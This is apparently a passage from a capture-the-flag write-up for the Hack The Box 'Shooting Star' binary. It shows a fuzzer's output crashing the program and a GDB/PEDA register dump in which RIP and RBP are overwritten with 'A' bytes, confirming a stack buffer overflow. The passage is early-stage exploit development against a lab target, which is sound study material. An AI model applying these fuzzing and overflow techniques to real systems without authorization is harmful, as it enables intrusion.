 Give executable and redirect output to file:

```shell
chmod a+x fuzz
./fuzz > f 
```

Execute binary shooting_star redirect f as input,  The program crashes with a "Segmentation fault", as shown below. 
```shell
./shooting_star < f                                                                                                                                                              main 
🌠 A shooting star!!
1. Make a wish!
2. Stare at the stars.
3. Learn about the stars.
> >> 
May your wish come true!
Segmentation fault (core dumped)
```

# Debugging the Program
In a Terminal window, execute these commands (we have installed and configured Peda assistance for GDB, you can do it without it).
The program stops with a "Segmentation fault", as shown below. 

```shell
gdb ./shooting_star 
r < f
[----------------------------------registers-----------------------------------]
RAX: 0x1a
RBX: 0x7fffffffe5a8 --> 0x7fffffffe8c4 ("/home/darthv/git/badorius/vulnhub/hackthebox/ShootingStar/Files/shooting_star")
RCX: 0x7ffff7ea20b4 (<write+20>:	cmp    rax,0xfffffffffffff000)
RDX: 0x1a
RSI: 0x40200c ("\nMay your wish come true!\n")
RDI: 0x1
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffe490 --> 0x1
RIP: 0xa414141 ('AAA\n')
R8 : 0x4012d0 (<__libc_csu_fini>:	ret)
R9 : 0x7ffff7fce890 (endbr64)
R10: 0x3
R11: 0x202
R12: 0x0
R13: 0x7fffffffe5b8 --> 0x7fffffffe912 ("SHELL=/bin/bash")
R14: 0x0
R15: 0x7ffff7ffd000 --> 0x7ffff7ffe2c0 --> 0x0
EFLAGS: 0x10203 (CARRY parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0xa414141
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe490 --> 0x1
0008| 0x7fffffffe498 --> 0x7ffff7dce290 (mov    edi,eax)
0016| 0x7fffffffe4a0 --> 0x7fffffffe590 --> 0x7fffffffe598 --> 0x38 ('8')
0024| 0x7fffffffe4a8 --> 0x401230 (<main>:	push   rbp)
0032| 0x7fffffffe4b0 --> 0x100400040
0040| 0x7fffffffe4b8 --> 0x7fffffffe5a8 --> 0x7fffffffe8c4 ("/home/darthv/git/badorius/vulnhub/hackthebox/ShootingStar/Files/shooting_star")
0048| 0x7fffffffe4c0 --> 0x7fffffffe5a8 --> 0x7fffffffe8c4 ("/home/darthv/git/badorius/vulnhub/hackthebox/ShootingStar/Files/shooting_star")
0056| 0x7fffffffe4c8 --> 0x97fef728dcc5e4eb
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
```